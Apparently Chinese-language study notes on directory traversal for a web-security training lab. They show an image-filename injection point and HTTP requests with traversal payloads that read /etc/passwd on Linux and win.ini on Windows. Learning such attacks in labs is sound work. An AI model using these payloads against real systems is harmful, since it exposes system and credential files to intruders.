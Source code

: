 ## 目录遍历

可能存在于图像链接中

```http
GET /image?filename=58.jpg HTTP/2
Host: web-security-academy.net


```

注入点

```
filename=§58.jpg§
```

猜测文件所在路径

```
/var/www/html/image/
```

linux 读取密码文件

```http
GET /image?filename=../../../../etc/passwd HTTP/2
Host: web-security-academy.net


```

windows 读取配置文件

```http
GET /image?filename=..\..\..\windows\win.ini HTTP/2
Host: web-security-academy.net


```

